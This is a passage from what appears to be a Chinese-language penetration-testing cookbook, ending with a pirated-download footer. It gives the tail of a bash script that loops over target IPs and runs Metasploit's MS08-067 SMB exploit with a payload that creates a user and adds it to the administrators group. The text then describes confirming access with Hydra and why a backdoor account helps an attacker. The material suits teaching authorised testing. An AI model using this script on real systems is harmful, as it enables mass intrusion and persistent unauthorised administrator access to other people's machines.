gnome-terminal -x msfconsole -x
"use exploit/windows/smb/ms08_067_netapi; set RHOST $ip;
 set PAYLOAD windows/exec; set CMD cmd.exe /c net user
 $user $pass add && net localgroup administrators $user add;
 run"
echo "Exploiting $ip and adding user $user"
i=$(($i+1))
done

```

1.  该脚本与之前的多线程利用脚本不同，因为其有效载荷的设计。

1.  在这种情况下，成功利用漏洞后会执行两个顺序命令。第一个命令创建一个名为`hutch`的新用户账户，并设置关联的密码。第二个命令将新创建的用户账户添加到本地管理员组中：



1.  如果没有提供任何参数执行脚本，脚本将输出适当的使用说明。该使用说明会指出，脚本应该带上一个指定包含目标 IP 地址列表的文本文件的文件名作为参数来执行。

1.  一旦执行该命令，多个新的终端将开始弹出。这些终端将依次执行输入列表中每个 IP 地址的利用序列。

1.  原始执行终端会输出正在执行的进程列表，并指示新用户账户将在每个进程上添加。每个终端中的利用序列完成后，系统可以通过集成终端服务（如 RDP）或通过远程 SMB 认证进行访问。

1.  为了演示账户已被添加，Hydra 用于使用新添加的凭据远程登录到被利用的系统：



1.  Hydra 表示使用新创建的凭据登录成功。这个新创建的账户可以用于进一步的恶意操作，或者可以使用脚本来测试该账户的存在，以验证漏洞的利用情况。

# 它是如何工作的……

通过在每个执行系统上添加一个用户账户，攻击者可以继续在该系统上执行后续操作。这种方法有优点也有缺点。在被攻破的系统上添加一个新账户比攻破现有账户要更快速，并且可以立即访问现有的远程服务，如 RDP。另一方面，添加一个新账户并不非常隐蔽，有时可能会触发基于主机的入侵检测系统的警报。

本书已从 AvaxHome 下载！

访问我的博客查看更多新书：

[`avxhm.se/blogs/AlenMiler`](https://tr.im/avaxhome)
